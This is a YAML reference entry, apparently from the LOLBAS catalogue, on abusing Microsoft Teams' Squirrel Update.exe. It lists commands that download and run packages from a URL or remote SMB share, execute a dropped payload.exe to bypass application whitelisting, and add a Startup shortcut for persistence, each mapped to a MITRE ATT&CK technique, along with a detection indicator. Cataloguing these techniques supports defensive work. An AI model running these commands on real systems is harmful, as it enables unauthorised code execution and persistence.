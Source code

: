 ```yaml
---
Name: Update.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: "Oddvar Moe"
Created: "2019-06-26"
Commands:
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Application Whitelisting Bypass
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --createShortcut=payload.exe -l=Startup
    Description: Copy your payload into "%localappdata%\Microsoft\Teams\current\". Then run the command. Update.exe will create a payload.exe shortcut in "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup". Then payload will run on every login of the user who runs it.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1547
    MitreLink: https://attack.mitre.org/techniques/T1547/001/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --removeShortcut=payload.exe -l=Startup
    Description: Run the command to remove the shortcut created in the "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" directory you created with the LolBinExecution "--createShortcut" described on this page.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1070
    MitreLink: https://attack.mitre.org/techniques/T1070/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\update.exe'
Code_Sample:
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection:
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
  - Link: https://twitter.com/reegun21/status/1291005287034281990
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
  - Link: https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
  - Link: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/microsoft-teams-updater-living-off-the-land/
Acknowledgement:
  - Person: Reegun Richard Jayapaul (SpiderLabs, Trustwave)
    Handle: "@reegun21"
  - Person: Mr.Un1k0d3r
    Handle: "@MrUn1k0d3r"
  - Person: Adam
    Handle: "@Hexacorn"
  - Person: Jesus Galvez
---
```

